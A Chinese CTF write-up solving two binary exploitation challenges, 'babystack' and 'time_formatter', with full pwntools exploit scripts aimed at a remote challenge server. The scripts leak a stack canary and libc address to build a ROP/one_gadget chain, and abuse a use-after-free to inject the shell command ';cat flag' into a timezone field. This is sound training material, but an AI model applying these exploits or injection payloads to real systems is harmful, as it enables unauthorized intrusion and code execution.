 # 序

本篇wp来自于永舟学长的压力，30题谁顶得住呀。

![afraid](..\..\..\..\pics\emojis\afraid.gif) 

## 0x1  pwn1 babystack

### 题目信息
![ad-babtstack-checksec](..\..\..\..\pics\wp\ad-babystack-checksec.png)   
![ad-babtstack-idamain](..\..\..\..\pics\wp\ad-babystack-idamain.png)  

### 思路
1.泄露canary  
2.泄露libc基址  
3.利用one_gadget  
  
### exp
~~~ python
from pwn import  * 
context.log_level = 'debug'

# r = process('./babystack')
r = remote("111.198.29.45", 41434)
e = ELF('./babystack')
libc = ELF('./libc-2.23.so')

puts_plt = e.plt['puts']
puts_got = e.got['puts']
one_gadget = 0x45216
pop_rdi  = 0x400a93
main     = 0x400908

def store(pay1):
	r.recvuntil('>>')
	r.sendline('1')
	r.sendline(pay1)

def show():
	r.recvuntil('>>')
	r.sendline('2')

def quit():
	r.sendlineafter('>> ','3')

def interactive():
	r.sendline('cat flag')
	r.interactive()

payload = 'a' * 0x88
store(payload)
show()
r.recvuntil(payload)
canary = u64(r.recv(8)) - 0xa
success("canary:" + hex(canary))

payload = 'a' * 0x88 + p64(canary) + 'a' * 8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
store(payload)
r.recv()
quit()

put_addr = u64(r.recv(6).ljust(8,'\x00'))
libc_base = put_addr - libc.symbols['puts']
one_gadget_addr = libc_base + one_gadget

payload = 'a' * 0x88 + p64(canary) + 'a' * 8 + p64(one_gadget_addr)
store(payload)
quit()
interactive()
~~~

### 小知识  
canary是以'\x00'结尾的，本意为截断字符串。  
将'\x00'覆盖，利用输出函数将canary泄露。

## 0x2  time_formatter  
### 题目信息
![ad-timef-match](..\..\..\..\pics\wp\ad-timef-match.png)   
![ad-timef-malloc](..\..\..\..\pics\wp\ad-timef-malloc.png)  
![ad-timef-vul](..\..\..\..\pics\wp\ad-timef-vul.png)  

### 思路
这个题目主要是分析程序的逻辑漏洞  
发现了UAF漏洞,没有把free过后的指针设置成NULL。  
UAF的基本思路是：  
1.可能是由程序自己）申请一块内存 ptr   
2.使用free(ptr)  
3.申请与ptr大小相似的内存（为了得到 ptr ）  
4.修改 ptr 为自己想要的值
  
### exp
~~~ python  
from pwn import *
context.update(arch='amd64', log_level='debug')

# r = process('./time_formatter')
r = remote('111.198.29.45','47767')
e = ELF('./time_formatter')

def set_format(string):
    r.sendlineafter('>', '1')
    r.sendlineafter(':', string)
    r.recvuntil('set')

def set_zone(string):
    r.sendlineafter('>', '3')
    r.sendlineafter(':', string)
    r.recvuntil('set')

def print_time():
    r.sendlineafter('>', '4')

def Exit():
    r.sendlineafter('>', '5')
    r.sendlineafter('?', 'N')

set_format('laIchIck')
Exit()
set_zone('\';cat flag\'')
print_time()
r.interactive()
~~~

### 小知识  
1.strspn(str1,str2) :  C库函数，检索字符串 str1 中第一个不在字符串 str2 中出现的字符下标。  
2.strdup()在内部调用了malloc()为变量分配内存，不需要使用返回的字符串时，需要用free()释放相应的内存空间，否则会造成内存泄漏。  
3.这里的set_zone('\';cat flag\'')是“注入”（暂时不太懂，下次来补坑）
